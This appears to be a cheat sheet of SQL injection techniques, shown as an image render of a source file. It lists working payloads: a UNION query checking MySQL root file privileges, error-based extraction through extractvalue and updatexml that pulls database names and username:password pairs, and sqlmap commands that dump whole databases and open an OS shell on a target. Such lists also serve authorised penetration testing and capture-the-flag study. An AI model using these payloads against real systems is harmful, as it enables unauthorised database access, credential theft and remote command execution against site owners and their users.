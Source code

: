 ## Check MySQL file privileges

```
' UNION SELECT 1,file_priv,3 FROM mysql.user WHERE user='root'--
```

## Test for error-based SQL injection

```
' AND extractvalue(1,concat(0x7e,database()))--
```

## Extract data with error-based injection

```
' AND extractvalue(1,concat(0x7e,(SELECT CONCAT(username,':',password) FROM users LIMIT 1)))--
```

## Use updatexml for error-based extraction

```
' AND updatexml(1,concat(0x7e,database()),1)--
```

## Test POST parameter for SQL injection with sqlmap

```bash
sqlmap -u http://$IP/login.php --data "username=admin&password=pass" -p username --batch
```

## Dump entire database with sqlmap

```bash
sqlmap -u http://$IP/page.php?id=1 --dump --batch
```

## Get shell using sqlmap

```bash
sqlmap -u http://$IP/page.php?id=1 --os-shell --batch
```

## Enumerate databases with sqlmap

```bash
sqlmap -u http://$IP/page.php?id=1 --dbs --batch
```

## Enumerate tables with sqlmap

```bash
sqlmap -u http://$IP/page.php?id=1 -D database_name --tables --batch
```
